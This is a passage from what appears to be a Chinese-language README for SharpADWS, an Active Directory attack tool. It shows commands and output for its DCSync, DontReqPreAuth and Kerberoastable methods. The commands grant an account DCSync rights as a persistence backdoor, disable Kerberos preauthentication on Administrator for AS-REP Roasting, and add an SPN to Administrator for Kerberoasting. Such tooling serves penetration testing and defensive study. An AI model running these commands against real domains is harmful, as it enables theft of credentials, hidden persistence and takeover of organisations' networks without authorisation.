 **需要注意的是，DCSync Method 的 `list` 必须依赖于已经通过 Cache Method 建立的映射缓存。**

此外，在拥有足够权限的情况下，您可以通过 `write` 为某个账户授予 DCSync 权限，以建立域持久性后门：

```powershell
C:\Users\Marcus>SharpADWS.exe DCSync -action write -target Marcus

[*] Account Marcus now has DCSync privieges on the domain.

```

### DontReqPreAuth

DontReqPreAuth method 的 `list` 能够查找出所有设置了 “Do not require kerberos preauthentication” 选项的账户，如下所示：

```powershell
C:\Users\Marcus>SharpADWS.exe DontReqPreAuth -action list

[*] Found users that do not require kerberos preauthentication:
[*]     CN=Bob,CN=Users,DC=corp,DC=local
[*]     CN=Alice,CN=Users,DC=corp,DC=local
[*]     CN=John,CN=Users,DC=corp,DC=local

```

此外，您可以滥用对目标账户 userAccountControl 属性的 WriteProperty 权限，通过  `write` 为该账户启用 “Do not require kerberos preauthentication”  选项，以执行 AS-REP Roasting 攻击：

```powershell
C:\Users\Marcus>SharpADWS.exe DontReqPreAuth -action write -target Administrator

[*] Set DontReqPreAuth for user Administrator successfully!

```

### Kerberoastable

Kerberoastable method 的 `list` 能够查找出所有设置了 SPN 的账户，如下所示：

```powershell
C:\Users\Marcus>SharpADWS.exe Kerberoastable -action list

[*] Found kerberoastable users:
[*] CN=krbtgt,CN=Users,DC=corp,DC=local
[*]     kadmin/changepw
[*] CN=Bob,CN=Users,DC=corp,DC=local
[*]     WWW/win-iisserver.corp.local/IIS
[*]     TERMSERV/win-iisserver.corp.local
[*] CN=John,CN=Users,DC=corp,DC=local
[*]     TERMSERV/WIN-SERVER2026

```

此外，您可以滥用对目标账户 servicePrincipalName 属性的 WriteProperty 权限，通过  `write` 为该账户（仅限于用户账户）添加一个 SPN，以执行 Kerberoasting 攻击：

```powershell
C:\Users\Marcus>SharpADWS.exe Kerberoastable -action write -target Administrator

[*] Kerberoast user Administrator successfully!

```
